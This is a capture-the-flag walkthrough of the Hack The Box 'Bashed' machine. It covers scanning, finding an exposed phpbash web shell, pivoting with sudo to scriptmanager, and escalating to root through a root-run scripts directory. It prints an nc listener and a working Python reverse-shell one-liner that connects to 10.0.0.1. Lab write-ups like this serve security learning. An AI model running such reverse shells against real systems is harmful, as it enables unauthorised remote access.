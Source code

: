 ```yaml
---

title: " Write Up for BASHED "

categories:
  - Hack The Box
tags:
  - Linux
  - HTB

---
```


# BASHED

This is an easy box based on linux 

---


## Reco

Time to scan, for this one i used ZenMap : 
![alt text](/assets/images/bashed/zenmap.png?raw=true "zenmap")

We find the port 80, let's check it out.

The site looks like a presentation for a Reverse Shell in PHP, their is also a link for it on GitHub.

The tool is name "phpbash.php", it might be present on the website, who knows ?

Let's try the same URL as shown in GitHub: http://10.10.10.68/upload/phpbash.php 

ahh nothing

Time To dirb !
![alt text](/assets/images/bashed/dirb.png?raw=true "dirbuster")

Ok we found it ! http://10.10.10.68/dev/phpbash.php

So, i guess we have a reverse shell already?

Lets upload LineNum.sh to get some informations.
![alt text](/assets/images/bashed/getLinenum.png?raw=true "phpbash")

We have some users
![alt text](/assets/images/bashed/user.png?raw=true "userlist")

 and some interresting things 
![alt text](/assets/images/bashed/nooPass.png?raw=true "nopasswd")

## Exploit

Ok so this mean we can su to scriptmanager without a password, thats great ! 

![alt text](/assets/images/bashed/userflag.png?raw=true "flag")

And we own the user :)

phpbash does not have a lot of permission so it's time to get a proper REshell.

For this one i'm using nc for the server : 

```bash
nc -nvlp 1234 
```

and python for the client : 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![alt text](/assets/images/bashed/reshellbien.png?raw=true "Autoruns")

No its time to privesc, lets check out some linux stuff.

We can see a directory name scripts at the root that contain a basic python script wich is executed 
regularly and got root privileges.

![alt text](/assets/images/bashed/scripts.png?raw=true "script")

let's upload our reverse shell here..

I'm using a python script for this one.

![alt text](/assets/images/bashed/root.png?raw=true "root")

Aaaaand we are Root !




